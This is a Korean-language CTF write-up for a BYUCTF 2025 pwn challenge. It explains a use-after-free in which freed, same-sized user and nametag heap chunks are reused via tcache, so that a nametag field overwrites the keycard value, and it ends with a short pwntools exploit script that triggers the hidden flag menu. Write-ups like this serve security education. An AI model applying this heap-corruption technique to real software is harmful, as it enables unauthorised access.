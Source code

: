 ```yaml
---
tags: [ctf, write-up, pwn, system]		
---
```


![Image](/assets/img/byuctf2025/image1.png)

---

![Image](/assets/img/byuctf2025/image2.png)

서버에 접속하면 먼저 register_user()가 실행되며 username을 입력받는다.

![Image](/assets/img/byuctf2025/image3.png)

그 후 메인 루프에서 print_menu() 함수가 호출되어 선택 가능한 메뉴가 출력된다.

각 기능은 다음과 같다.

1. **Register a new user**
    
    → 새로운 유저를 등록하며 curr_user 구조체를 새로 할당하고 username을 다시 입력받는다.
    
2. **Learn about the Time Keepers**
    
    → 설명 메시지를 출력한다.
    
3. **Collect gear**
    
    → rand()를 통해 5가지 선택지 중 하나가 선정된다.
    
    그중 gear==2 (Name Tag)가 선정될 경우 curr_nametag를 malloc()으로 할당하고
    
    first, last 필드에 대해 각각 8바이트씩 read()로 입력을 받는다.
    
4. **Elevate to super user**
    
    → curr_user->uid가 0x600000 이상일 경우 keycard에 0x1337이 세팅된다.
    
    이 값을 만족시키면 숨겨진 옵션인 7번 (Free Loki)이 정상 작동하게 된다.
    
5. **Change characters**
    
    → log_out()을 호출해 기존 curr_user와 curr_nametag를 해제하고,
    
    다시 register_user()를 호출해 새 유저로 전환한다.
    
6. **Leave**
    
    → 루프를 종료하고 프로그램을 종료한다.
    

코드를 분석해보면, flag를 얻기 위해서는 사용자 입력을 통해 숨겨진 메뉴인 7번을 실행해야 한다.

하지만 단순히 메뉴 7번을 실행하는 것 만으로는 flag를 얻을 수 없고, 두 가지 조건을 충족해야 한다.

1. curr_user가 등록되어 있어야 한다. (!= NULL)
2. curr_user->keycard 값이 정확히 0x1337이어야 한다

즉, 사용자 등록 후 keycard 값을 0x1337로 변경해야 한다.

keycard는 프로그램 흐름상 사용자의 uid 값이 0x600000 이상일 경우에만 설정되므로, 일반적으로는 이를 만족할 수 없다. 

코드의 구조체 정의를 살펴보면, 익스플로잇에 대한 힌트를 얻을 수 있는데,

user_t와 nametag_t 두 구조체가 24바이트의 동일한 크기를 가지고 있다는 점이다.

```c
typedef struct {
    long uid;
    char username[8];
    long keycard;
} user_t;

typedef struct {
    long mfg_date;
    char first[8];
    char last[8];
} nametag_t;
```

크기가 동일한 두 구조체는 Heap 상에서 동일한 chunk 크기를 할당받으며,

free()후 재할당 시 동일한 메모리 주소에 위치할 가능성이 매우 높다. → Use-After-Free

힙이 재사용되는 것을 확인해보기 위해 gdb로 흐름을 살펴보았다.

처음 register_user로 계정 생성 후 curr_user가 가리키는 주소 :  0x5555555592a0

![Image](/assets/img/byuctf2025/image4.png)

gear 2를 이용해 curr_nametag 설정

![Image](/assets/img/byuctf2025/image5.png)

curr_nametag가 가리키는 주소 : 0x5555555592c0

![Image](/assets/img/byuctf2025/image6.png)

curr_nametag 내부

![Image](/assets/img/byuctf2025/image7.png)

메뉴 5번 (Change characters)으로 로그아웃 후 새로 계정을 생성

![Image](/assets/img/byuctf2025/image8.png)

curr_user가 가리키는 주소 : 0x5555555592c0 (기존의 curr_nametag 주소와 동일)

![Image](/assets/img/byuctf2025/image9.png)

내부를 보면 username은 새로 입력한 값으로 덮였지만, curr_user→keycard 위치에는 curr_nametag→last 값이 그대로 있는 것을 확인할 수 있다.

![Image](/assets/img/byuctf2025/image10.png)

추가로, 이때 curr_nametag는 어디를 가리키는지 궁금해서 생성한 후 확인해보니

기존의 curr_user가 가리키던 주소인 0x5555555592a0을 가리키고 있었다.

![Image](/assets/img/byuctf2025/image11.png)

즉, 0x5555555592a0, 0x5555555592c0 두 힙 청크는

동일한 크기(0x20)의 malloc과 free 과정에서 번갈아 재사용되고 있다.

tcache가 LIFO 방식으로 동작하기 때문으로 보인다.

이제 힙 재사용을 확인했으니 익스플로잇 흐름을 작성해볼 수 있다.

1. **처음 register_user()로 사용자 등록**
    
    → curr_user에 malloc(sizeof(user_t))로 힙 chunk 할당
    
2. **메뉴 3번 (Collect gear)에서 gear == 2가 나올 때까지 반복 시도**
    
    → curr_nametag에 동일한 크기의 chunk가 할당되고 read() 2번으로 first, last에 8바이트씩 입력받는데, curr_nametag→last는 curr_user→keycard를 덮게 되므로 last에 0x1337을 입력
    
3. **메뉴 5번 (Change characters)으로 curr_user와 curr_nametag를 free()한 뒤 재등록**
    
    → 같은 힙 주소를 재사용하게 되고, curr_user→keycard 값이 0x1337을 만족하게 됨
    
4. **메뉴 7번 입력**
    
    → flag 출력
    

---

### exploit.py

```c
from pwn import *

p = remote("minecraft.chal.cyberjousting.com", 1354) 

payload = p64(1234)
payload += p64(0x1337)

p.sendlineafter("username now: ",b"A"*4)

while(1): 
    p.sendlineafter("6. Leave" , "3") 
    p.recvuntil("\n")
    
    if b"your first and last name:" in p.recvuntil("\n"):
        p.sendline(payload)
        break

p.sendline("5")
p.sendlineafter("username now: ",b"A"*4)
p.sendline("7")
p.interactive()
```

![Image](/assets/img/byuctf2025/image12.png)